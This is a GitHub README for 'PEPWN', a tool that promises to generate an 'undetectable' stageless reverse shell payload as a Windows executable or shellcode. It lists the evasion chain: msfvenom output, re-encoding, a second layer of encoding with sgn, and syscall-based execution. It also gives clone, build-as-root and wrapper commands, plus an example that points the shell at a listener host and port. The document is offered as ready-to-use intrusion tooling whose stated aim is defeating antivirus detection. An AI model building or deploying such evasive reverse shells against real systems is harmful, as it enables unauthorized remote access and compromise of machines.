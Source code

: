 # PEPWN
PWNPE is a multi chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

- [x] generate a payload with msfvenom.
- [x] generate a shellcode from it
- [x] encodes it.
- [x] apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/).
- [x] transfer it into a shellcode format of use or create exe file that triggers that shellcode using syscalls.



## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```


## Documentation

Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 -f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 -t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 -h : host/ip/domain of the listener
 
 -p : port of the listener
 
 -H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## How to use

https://youtu.be/SYriAv_FPAg




